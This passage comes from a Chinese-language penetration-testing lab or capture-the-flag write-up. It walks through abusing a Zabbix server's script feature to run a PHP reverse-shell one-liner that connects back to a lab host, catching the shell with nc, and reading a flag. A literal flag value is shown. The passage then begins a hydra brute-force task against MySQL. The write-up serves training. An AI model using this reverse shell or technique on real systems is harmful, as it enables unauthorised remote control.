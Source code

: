 ![image-20211114141425616852-1669009421544307.png](img/典型企业生产环境渗透赛 Local.assets/4ae8578a2e4688d024fa0ee9d1ef6649.png)

将反弹shell写入：

```
php -r '$sock=fsockopen("192.168.12.55",6666);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![image-20211114143031325891-1669009422718294.png](img/典型企业生产环境渗透赛 Local.assets/f702150e4b230238cf1d0f47e9825235.png)

点击`Add`进行添加；添加完成后点击`Monitoring`>>`Lastest data`。

![image-20211114143327396397-1669009423880187.png](img/典型企业生产环境渗透赛 Local.assets/8489e0158b5669820ec5ce7aa968289f.png)

点击`Host groups`后面的`Select`，勾选`Name`项进行全选，完成后点击`Select`。

![image-20211114143500445443-1669009425044564.png](img/典型企业生产环境渗透赛 Local.assets/5c20d4f62ae10c9e8a3201f669a1f3e5.png)

点击`Filter`。

![image-20211114143605876092-1669009426211071.png](img/典型企业生产环境渗透赛 Local.assets/bfba8fbab21499cbc47df2aeb7e4dbef.png)

点击下方第一个`Zabbix Server`>>`shell`。

![image-20211114143846655959-1669009427356195.png](img/典型企业生产环境渗透赛 Local.assets/f254a159c62702c48a0e85637456a13f.png)

完成后回到`192.168.12.55`主机的远程桌面，nc接收到反弹的shell：

![image-20211114144045769370-1669009428528617.png](img/典型企业生产环境渗透赛 Local.assets/1e2594e74b9ba1f3400b1f9f88a23127.png)

获取flag:

```
cat /home/flag.txt
```

![image-20221110140830521805-1669009429703162.png](img/典型企业生产环境渗透赛 Local.assets/74baa78e7a7eea3f6d4d40b0ac8719dc.png)

```
flag{13C5E63F-96827ACF-8390EF9D-F1BB7CF1}
```

##### 任务10：mysql密码爆破(T1110 - 暴力破解)

```
本场景的第10个任务是通过工具对Zabbix数据库进行密码爆破，收集数据库信息。

hydra是一个网络帐号破解工具，支持多种协议。其作者是van Hauser,David Maciejak与其共同维护。hydra在所有支持GCC的平台能很好的编译，包括Linux,所有版本的BSD,Mac OS, Solaris等。

该任务可以通过以下操作完成。
```

主机`192.168.12.50`开放3306端口，疑似mysql数据库，尝试破解登录；

进入`Kali_tools`主机的`/root/Desktop/tools/Hydra/`目录，将之前获取到的账户密码信息进行写入；在`user.txt`文件中新增`root`和`zabbix`记录并保存。
